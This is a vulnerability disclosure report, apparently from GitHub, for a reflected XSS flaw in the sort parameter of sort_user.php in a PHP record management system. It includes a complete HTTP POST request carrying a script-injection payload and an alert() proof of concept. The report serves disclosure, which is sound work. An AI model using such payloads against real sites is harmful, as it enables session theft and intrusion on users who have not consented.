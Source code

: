 ### VUL_AUTHOR:zhangwei
# Record management system – reflected XSS on (sort_user.php sort parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort_user.php

On this page, sort parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://192.168.0.100/Personnel_record_management_system/sort_user.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/sort_user.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

sort=Sort+Personnel+by+School"><script>alert(1)</script>&filter=
```
### Payload：
"><script>alert(1)</script>

## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/85a8fdd0-39e4-4ff5-a9a0-2f8c7a88ca55">

